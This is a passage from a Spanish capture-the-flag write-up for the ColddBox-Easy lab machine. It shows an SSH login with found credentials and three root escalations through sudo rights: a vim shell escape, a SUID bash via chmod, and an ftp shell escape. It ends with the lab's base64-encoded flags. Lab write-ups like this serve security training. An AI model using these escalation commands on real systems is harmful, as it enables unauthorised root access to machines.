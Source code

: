 Y veremos que si es la contarseña del usuario, por lo que nos conectaremos por `ssh`...

```
User = c0ldd
Password = cybersecurity
```

```shell
ssh c0ldd@<IP>
```

Y una vez estemos dentro haremos `sudo -l` y veremos lo siguiente...

```
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Veremos que podremos hacer varias cosas como `root` y podremos escalar de 3 formas distintas...

> /usr/bin/vim

```shell
sudo vim -c ':!/bin/sh'
```

Con esto serias `root`...

> /bin/chmod

```shell
sudo chmod u+s /bin/bash
```

```shell
bash -p
```

Con esto serias `root`...

> /usr/bin/ftp

```shell
sudo ftp
```

```shell
ftp> !/bin/sh
```

Con esto serias `root`...

Leemos las 2 flags...

> user.txt (flag1)

```
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

```
Felicidades, primer nivel conseguido!
```

> root.txt (flag2)

```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

```
¡Felicidades, máquina completada!
```
